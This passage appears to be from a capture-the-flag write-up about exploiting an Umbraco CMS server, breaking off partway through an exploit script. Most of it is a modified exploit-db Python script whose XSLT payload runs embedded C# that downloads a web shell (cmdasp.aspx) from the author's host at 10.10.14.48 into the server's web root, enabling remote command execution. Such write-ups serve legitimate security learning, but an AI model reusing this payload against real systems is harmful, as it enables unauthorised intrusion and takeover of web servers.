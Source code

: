 ![login.png](../../_resources/24740d246e0d4e89b157ba2c4d818456.png)

Seeing that the the webpage is running Umbraco I find an an RCE exploit here https://www.exploit-db.com/exploits/46153. I had make some edits to the exploit, here is the final product.
```{.py}
import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());

print("Start");

# Execute a calc for the PoC
payload = """<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("http://10.10.14.48/cmdasp.aspx",
                       @"c:\\inetpub\\wwwroot\\Umbraco\\cmdasp.aspx");

    return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
```